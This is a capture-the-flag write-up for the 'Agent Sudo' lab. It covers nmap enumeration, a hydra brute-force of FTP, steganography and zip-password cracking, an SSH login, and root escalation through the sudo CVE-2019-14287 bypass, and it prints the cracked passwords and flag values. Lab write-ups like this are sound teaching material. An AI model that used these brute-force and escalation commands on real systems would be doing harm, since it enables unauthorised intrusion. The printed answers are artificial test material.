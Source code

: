 
# Task 1: (Start the machine)

```
export IP=10.10.144.134
```

# Task 2: (Ennumerate)

```(nmap scan)

nmap -sS -sV -vv -Pn $IP

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

User-Agent: C from hint.
Agent Chris


# Task 3: (Hash cracking and Bruteforce)

```(hydra brute)

hydra -l chris -P /usr/share/wordlists/rockyou.txt $IP ftp -V

[21][ftp] host: 10.10.144.134   login: chris   password: crystal
```

```(ftp login)

ftp $IP
username: chris
password: crystal

ftp> passive
passive mode on
ftp> ls
ftp> get [filename] 
```


We get two image files and a txt file.

Lets analyse the file with binwalk

```(binwalk)
Scan Time:     2020-07-17 12:04:54
Target File:   /root/tryhackme/AgentSudo/cute-alien.jpg
MD5 Checksum:  502df001346ac293b2d2cb4eeb5c57cc
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


Scan Time:     2020-07-17 12:04:54
Target File:   /root/tryhackme/AgentSudo/cutie.png
MD5 Checksum:  7d0590aebd5dbcfe440c185160c73c9e
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22


Scan Time:     2020-07-17 12:04:54
Target File:   /root/tryhackme/AgentSudo/To_agentJ.txt
MD5 Checksum:  23c8ba1d92596458cd240cf2029cdc63
Signatures:    391

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
```

# Task 3: (Hash cracking and brute-force)

We extract the png file to get the zip file

```(binwalk extract)

binwalk cutie.png -e

```

We obtain a zip file, lets crack the hash using rockyou wordlist to obtain the pass.

```(zip cracking)

zip2john 8702.zip > crack.txt

john --format=zip --wordlist=/usr/share/wordlist/rockyou.txt crack.txt

```

Password is Alien.

When we extract the zip with this password we obtain a base64 encoded text. Decode it to obtain text Area51 as the password for the text file.

Using steghide to extract the data

```(steghide)

steghide extract -sf cute-alien.jpg
```

This file has username and the ssh password

# Task 4: (Capture the user flag)

Using SSH to login to the server.

```(ssh)
ssh james@$IP
password: hackerrules!
```

we get the user flag here

```(cat)
cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7 
```

Using scp to copy the image from server to host.

```(scp)

scp james@$IP:/home/james/Alien_autopsy.jpg
```

Using Reverse image on the image we find it to be Roswell alien autopsy incident.

# Task 5: (Priviledge Esclataion)

Trying to run sudo -l prompts us for the password and upon entering the password we see the following results.

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Upon googling I found this [sudo-vulnerability](https://www.exploit-db.com/exploits/47502) CVE-2019-14287 

Exploit: `sudo -u#-1 /bin/bash`

Upon entering the password, we are loggedin as root.

locate the root flag at (/root/root.txt)

```(root flag)
cat /root/root.txt
b53a02f55b57d4439e3341834d70c062
```



